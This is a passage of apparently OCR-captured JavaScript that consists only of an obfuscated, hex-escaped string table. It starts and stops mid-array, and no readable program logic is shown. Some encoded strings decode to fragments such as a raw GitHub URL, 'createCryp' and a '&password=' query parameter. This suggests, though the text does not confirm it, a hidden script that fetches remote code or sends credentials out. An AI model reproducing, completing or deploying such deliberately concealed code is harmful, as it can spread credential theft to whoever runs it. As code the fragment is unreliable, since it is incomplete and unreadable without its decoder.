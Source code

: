 9\x74\x35\x6c\x49\x69\x36\x6c\x59\x77\x35\x6c\x55\x2b','\x57\x37\x7a\x38\x57\x52\x5a\x63\x51\x53\x6b\x4d','\x74\x6d\x6b\x36\x57\x35\x6d\x45\x57\x37\x53','\x57\x35\x64\x64\x4b\x43\x6b\x59\x74\x43\x6f\x5a','\x57\x51\x52\x63\x4f\x6d\x6f\x57\x57\x4f\x33\x64\x51\x47','\x41\x66\x62\x76\x75\x76\x4f','\x57\x34\x6c\x63\x50\x67\x38\x41','\x44\x75\x44\x68\x73\x65\x65','\x75\x30\x35\x39\x57\x35\x52\x64\x51\x61','\x77\x32\x39\x49\x41\x4d\x76\x4a\x44\x63\x62\x68\x7a\x71','\x71\x38\x6f\x79\x71\x49\x56\x63\x4d\x57','\x72\x66\x62\x34\x44\x32\x43','\x44\x53\x6f\x44\x73\x59\x56\x64\x4a\x47','\x57\x34\x70\x63\x4a\x64\x57\x47\x6e\x71','\x73\x76\x6c\x64\x49\x6d\x6b\x37\x57\x35\x38','\x78\x47\x37\x64\x4d\x6d\x6b\x70\x43\x71\x5a\x63\x53\x47\x78\x64\x4a\x53\x6f\x38','\x6f\x67\x47\x4d\x57\x35\x66\x74','\x75\x31\x42\x64\x4a\x38\x6f\x6f\x57\x4f\x38','\x57\x36\x65\x4e\x6f\x65\x4c\x6a','\x73\x32\x39\x4d\x42\x4d\x71','\x43\x4d\x76\x5a\x44\x77\x58\x30','\x57\x36\x78\x64\x53\x4e\x52\x63\x4b\x64\x65','\x7a\x67\x7a\x47\x76\x38\x6b\x4f','\x57\x35\x68\x64\x52\x6d\x6b\x68\x72\x53\x6f\x6e\x46\x4e\x5a\x63\x56\x49\x75\x36','\x46\x76\x70\x63\x52\x43\x6f\x47\x43\x61','\x41\x77\x4c\x41\x42\x4e\x61','\x57\x50\x46\x64\x56\x38\x6b\x44','\x7a\x67\x50\x68\x79\x4d\x4f','\x77\x38\x6f\x4c\x46\x5a\x42\x63\x4b\x61','\x7a\x68\x62\x53\x79\x33\x75','\x57\x34\x78\x63\x4b\x63\x69\x57\x6c\x71','\x7a\x33\x48\x6e\x44\x4c\x79','\x57\x35\x42\x64\x54\x53\x6b\x50\x76\x43\x6f\x57','\x42\x53\x6b\x51\x65\x78\x76\x45','\x74\x33\x44\x63\x41\x76\x43','\x7a\x67\x76\x76\x7a\x4c\x65','\x78\x38\x6b\x6c\x6f\x71','\x57\x37\x5a\x63\x48\x43\x6f\x54\x57\x34\x46\x63\x49\x71','\x57\x36\x46\x64\x4b\x38\x6b\x6e\x77\x43\x6f\x62','\x43\x68\x6d\x36\x6c\x59\x39\x59\x79\x78\x43\x55\x7a\x57','\x57\x4f\x5a\x63\x49\x53\x6f\x4e\x57\x52\x65','\x41\x33\x66\x31\x71\x43\x6f\x6d\x57\x35\x4b\x44\x57\x50\x70\x63\x4a\x53\x6f\x66','\x74\x38\x6f\x6e\x46\x53\x6b\x34\x67\x47','\x57\x34\x6c\x63\x4f\x68\x4f\x6c','\x45\x4d\x47\x54\x71\x30\x34\x53\x45\x4d\x47\x37\x43\x71','\x74\x30\x6e\x73\x78\x31\x6e\x66\x75\x4c\x7a\x66\x75\x47','\x79\x71\x4e\x64\x49\x38\x6b\x56\x46\x71','\x74\x75\x43\x4e\x74\x57\x38','\x42\x32\x4c\x51\x7a\x4c\x43','\x79\x32\x58\x79\x42\x33\x6d','\x75\x31\x76\x67\x45\x68\x69','\x7a\x77\x76\x67\x7a\x66\x71','\x71\x67\x5a\x63\x4d\x38\x6f\x39\x75\x38\x6b\x6e','\x78\x6d\x6f\x6a\x79\x74\x5a\x63\x51\x61\x5a\x63\x4c\x4b\x65\x38\x57\x36\x71','\x72\x78\x42\x63\x4f\x67\x65\x62','\x72\x68\x48\x6a\x44\x68\x6d','\x41\x4d\x44\x48\x72\x67\x6d','\x57\x37\x31\x32\x61\x78\x47\x76\x57\x36\x6c\x64\x49\x53\x6f\x76\x57\x50\x4e\x63\x4a\x47','\x6a\x4e\x62\x48\x43\x33\x6e\x33\x42\x33\x6a\x4b\x70\x71','\x6d\x6d\x6b\x6d\x77\x53\x6f\x42\x71\x57','\x79\x53\x6f\x69\x72\x71\x5a\x64\x4f\x57','\x57\x52\x6c\x63\x47\x6d\x6b\x7a\x6c\x6d\x6b\x54','\x57\x37\x53\x4e\x57\x52\x46\x63\x4c\x33\x68\x63\x53\x61','\x57\x51\x74\x63\x49\x43\x6b\x33\x68\x38\x6b\x56','\x57\x34\x2f\x63\x51\x4d\x57\x43\x57\x50\x31\x44','\x65\x53\x6f\x31\x76\x4e\x39\x33\x57\x50\x71','\x77\x76\x31\x4e\x78\x6d\x6b\x54','\x41\x73\x52\x64\x50\x53\x6b\x68\x77\x71','\x44\x78\x50\x56\x42\x32\x47','\x42\x77\x66\x57','\x42\x47\x6a\x55\x41\x57','\x6d\x6d\x6b\x61\x6d\x59\x71','\x57\x36\x43\x6b\x62\x67\x4e\x63\x51\x43\x6b\x49','\x76\x4b\x78\x64\x4f\x6d\x6b\x78\x57\x36\x61','\x57\x34\x52\x64\x47\x53\x6b\x4d\x57\x36\x42\x63\x4a\x38\x6f\x55\x57\x37\x56\x64\x4f\x38\x6f\x72','\x41\x68\x37\x64\x52\x38\x6b\x66\x57\x35\x43','\x72\x31\x76\x34\x74\x75\x57','\x79\x33\x6a\x4c\x79\x78\x72\x4c\x71\x33\x6a\x35\x43\x61','\x44\x32\x31\x4d\x42\x67\x53','\x79\x78\x62\x57\x42\x68\x4b','\x57\x34\x35\x44\x57\x4f\x61','\x65\x53\x6f\x39\x57\x4f\x53','\x43\x4d\x76\x30\x44\x78\x6a\x55','\x79\x33\x62\x48\x74\x67\x4f','\x6d\x4a\x79\x5a\x6f\x64\x65\x30\x77\x66\x50\x4d\x72\x75\x50\x63','\x42\x4b\x6e\x4b\x79\x30\x69','\x57\x50\x37\x63\x49\x6d\x6b\x51\x61\x6d\x6b\x4f\x57\x50\x37\x64\x4f\x78\x76\x30\x45\x71','\x45\x4b\x50\x73\x43\x68\x43','\x43\x31\x30\x68\x74\x4c\x4f','\x6a\x59\x62\x54\x7a\x78\x72\x4f\x42\x32\x71','\x76\x30\x6e\x75\x42\x67\x47','\x57\x50\x68\x63\x49\x43\x6f\x59\x57\x36\x4e\x63\x4a\x6d\x6f\x53','\x75\x66\x72\x57\x7a\x67\x53','\x76\x62\x62\x71\x6d\x5a\x4b','\x77\x75\x4c\x49\x44\x75\x4b','\x7a\x78\x48\x35\x42\x68\x69','\x45\x4e\x66\x6c\x71\x77\x79','\x57\x36\x70\x64\x4e\x43\x6b\x71\x42\x6d\x6f\x6a','\x77\x53\x6b\x66\x41\x6d\x6f\x48\x57\x50\x4f','\x71\x78\x4b\x7a','\x44\x6d\x6f\x71\x57\x4f\x33\x63\x55\x38\x6b\x6c','\x79\x31\x62\x41\x44\x33\x4f','\x75\x75\x72\x64\x42\x65\x6d','\x77\x78\x66\x5a\x77\x66\x61','\x75\x33\x65\x7a\x75\x5a\x53','\x57\x4f\x33\x64\x55\x74\x5a\x63\x49\x78\x65','\x57\x52\x6a\x34\x61\x53\x6f\x65\x44\x6d\x6b\x76','\x44\x6d\x6b\x54\x42\x38\x6f\x63\x57\x51\x30','\x7a\x67\x44\x68\x73\x4c\x4b','\x74\x75\x4c\x66\x44\x78\x4b','\x73\x63\x48\x48\x43\x38\x6f\x36','\x75\x32\x69\x7a\x76\x63\x33\x64\x4f\x43\x6f\x37\x64\x4a\x53','\x44\x32\x44\x36\x77\x77\x43','\x41\x31\x72\x4d\x42\x4b\x65','\x57\x52\x33\x63\x47\x71\x61\x75\x57\x51\x69','\x34\x4f\x6f\x6b\x34\x4f\x6b\x33\x34\x4f\x6f\x54\x34\x4f\x67\x39\x34\x4f\x6b\x38\x34\x4f\x6b\x50\x34\x4f\x63\x6c\x34\x4f\x6b\x4b\x34\x4f\x67\x55\x34\x4f\x63\x65','\x57\x37\x4b\x45\x57\x36\x56\x64\x4d\x47\x71\x54\x70\x38\x6f\x38\x57\x34\x46\x64\x4e\x57','\x57\x51\x5a\x64\x55\x38\x6b\x41\x6a\x43\x6b\x4e\x57\x35\x56\x63\x52\x38\x6b\x68\x62\x43\x6b\x37','\x45\x65\x58\x4f\x41\x75\x79','\x73\x66\x7a\x68\x74\x4d\x47','\x77\x66\x62\x54\x7a\x4d\x6d','\x43\x67\x76\x70\x7a\x47','\x43\x6d\x6b\x62\x6b\x33\x44\x70','\x6b\x38\x6f\x79\x74\x65\x54\x4e','\x42\x78\x76\x54\x79\x4d\x76\x59\x6c\x32\x72\x56\x76\x61','\x43\x4b\x74\x64\x49\x6d\x6f\x35\x57\x50\x79\x4d','\x57\x50\x76\x56\x62\x43\x6f\x30\x79\x47','\x57\x51\x4f\x52\x72\x74\x34\x36\x57\x35\x46\x64\x54\x57','\x75\x33\x4c\x54\x79\x4d\x39\x53\x6c\x4d\x4c\x30\x7a\x71','\x57\x37\x76\x63\x43\x63\x43\x65','\x6b\x43\x6b\x31\x68\x63\x53\x46','\x42\x33\x44\x6f\x73\x76\x4f','\x71\x43\x6f\x32\x78\x63\x74\x64\x4a\x61','\x75\x78\x66\x52\x43\x68\x4b','\